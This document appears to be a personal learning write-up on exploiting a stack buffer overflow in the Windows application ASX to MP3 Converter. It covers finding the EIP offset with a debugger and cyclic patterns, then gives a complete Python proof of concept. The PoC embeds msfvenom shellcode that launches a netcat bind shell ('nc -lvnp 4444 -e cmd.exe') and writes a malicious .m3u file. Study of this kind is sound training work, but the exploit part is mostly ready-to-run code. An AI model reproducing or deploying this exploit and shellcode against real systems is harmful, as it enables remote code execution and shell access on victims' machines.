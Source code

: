 # Windows Buffer Overflow
## 1. What is Buffer overflow
Similar with [Linux Buffer overflow](https://github.com/7heKnight/Learning-Reports/tree/main/INE/Linux%20Stack%20Smashing/Linux_BO_Foundation) theory of mine

---

## 2. Setting up environment
Download [ASX to MP3 Converter](https://www.exploit-db.com/apps/f4da5b43ca4b035aae55dfa68daa67c9-ASXtoMP3Converter.exe) and install it. After install this app, the application will locate at:
- `C:\Program Files (x86)\Mini-stream\ASX to MP3 Converter`

About the pattern, there are lots of tool like [mona](https://github.com/corelan/mona) (which is support on [Immunity Dubugger](https://www.immunityinc.com/products/debugger/)), or cyclic, or you can also use metasploit. In here I am going to use `cyclic`, to install it:
- `> pip install pwn pwntools pwnlib`

---

## 3. Finding Offset, Return Address
Open *Immunity Debugger*  , press `F3` to open the opening program menu and go to **ASXtoMP3Converter** program location and pick it.

![windows_stack_smashing-1.png](windows_stack_smashing-1.png)

Then, press `F9` to run, and the program's menu will appear.

![windows_stack_smashing-2.png](windows_stack_smashing-2.png)

Press load and see the supported file type.

![windows_stack_smashing-3.png](windows_stack_smashing-3.png)

In here,I will create a file with file type (*.\*m3u*) contain 18000 `A` buffers:

- `> python -c "print('A'*18000)" > Bof.m3u`

Then, re-run the program and drag the created file into load button, it will return a notification of error. Just searching on google, and (*\*.m3u*) is *MP3 URL*. So we will add `http://` to be a valid url:

- `> python -c "print('http://' + 'A'*18000)" > Bof.m3u`

After that, drag and drop it to load button again and we see that the `EIP` on Register table overrided with `0x41414141` which mean **AAAA**.

![windows_stack_smashing-4.png](windows_stack_smashing-4.png)

Re-run the application and create pattern with `cyclic` (which is one of tool's `pwn` library)

- `> pwn cyclic 18000` or can also use `> cyclic 18000`

Then adding `http://` in the first of string and execute it, and we got the `EIP` value is 0x78736761 use `cyclic` to find the offset:

- `cyclic -l 0x78736761` => Output is **17417**

Try to override EIP with `B`. Creating file to override it: `python -c "python -c "print('http://' + 'A'*17417 + 'B'* 4)" > Bof.m3u`

![windows_stack_smashing-5.png](windows_stack_smashing-5.png)

Now, we can see on `EIP` overrided with *0x42424242* which mean **BBBB**. Look down to stack table, roll up a little bit, we can see there are lots of A store in there, So I random choose the address close with the start to be the return address

![windows_stack_smashing-6.png](windows_stack_smashing-6.png)

---

## 4. Proof of Concept
We have already known the offset, got return address, using msfvenom to spawn the shellcode on linux machine:

- `msfvenom -p windows/exec CMD="nc -lvnp 4444 -e cmd.exe" -b '\x00' -f python`

Then copy it and make it to be a completely PoC

```python
from struct import pack  
  
# msfvenom -p windows/exec CMD="ncat -lvnp 4444 -e cmd.exe" -b '\x00' -f python
buf =  b""
buf += b"\xd9\xe8\xd9\x74\x24\xf4\xbd\x5b\xa4\x5d\x38\x58\x31"
buf += b"\xc9\xb1\x35\x31\x68\x1a\x03\x68\x1a\x83\xe8\xfc\xe2"
buf += b"\xae\x58\xb5\xba\x50\xa1\x46\xdb\xd9\x44\x77\xdb\xbd"
buf += b"\x0d\x28\xeb\xb6\x40\xc5\x80\x9a\x70\x5e\xe4\x32\x76"
buf += b"\xd7\x43\x64\xb9\xe8\xf8\x54\xd8\x6a\x03\x88\x3a\x52"
buf += b"\xcc\xdd\x3b\x93\x31\x2f\x69\x4c\x3d\x9d\x9e\xf9\x0b"
buf += b"\x1d\x14\xb1\x9a\x25\xc9\x02\x9c\x04\x5c\x18\xc7\x86"
buf += b"\x5e\xcd\x73\x8f\x78\x12\xb9\x46\xf2\xe0\x35\x59\xd2"
buf += b"\x38\xb5\xf5\x1b\xf5\x44\x04\x5b\x32\xb7\x73\x95\x40"
buf += b"\x4a\x83\x62\x3a\x90\x06\x71\x9c\x53\xb0\x5d\x1c\xb7"
buf += b"\x26\x15\x12\x7c\x2d\x71\x37\x83\xe2\x09\x43\x08\x05"
buf += b"\xde\xc5\x4a\x21\xfa\x8e\x09\x48\x5b\x6b\xff\x75\xbb"
buf += b"\xd4\xa0\xd3\xb7\xf9\xb5\x6e\x9a\x97\x48\xfd\xa0\xda"
buf += b"\x4b\xfd\xaa\x4a\x24\xcc\x21\x05\x33\xd1\xe3\x61\xcb"
buf += b"\x98\xae\xc0\x44\x44\x3b\x51\x09\x77\x91\x96\x34\xfb"
buf += b"\x10\x67\xc3\xe3\x50\x62\x8f\xa4\x89\x1e\x80\x40\xae"
buf += b"\x8d\xa1\x41\xc0\x52\x3f\x1d\x3d\xb8\xd3\xab\x53\xb2"
buf += b"\x0b\x67\x98\x06\x78\xa7\xcd\x03\xa0\xc4\x60\xa8\x8e"
buf += b"\x6f\x03\x55\xcf" 
  
offset = 17417  
nop = b'\x90'  
ret = pack('<I', 0x001480B8)  
  
payload = b'http://' + b'\x90'*100 + buf +  b'A'*(17417-100-len(buf)) + ret  
  
open('Bof.m3u', 'wb').write(payload)
```

![windows_stack_smashing-7.png](windows_stack_smashing-7.png)

---

## 5. Reference:
- msfvenom payloads cheatsheet: [https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9)
- Mona: [https://github.com/corelan/mona](https://github.com/corelan/mona)
- Immunity Dubugger: [https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/)
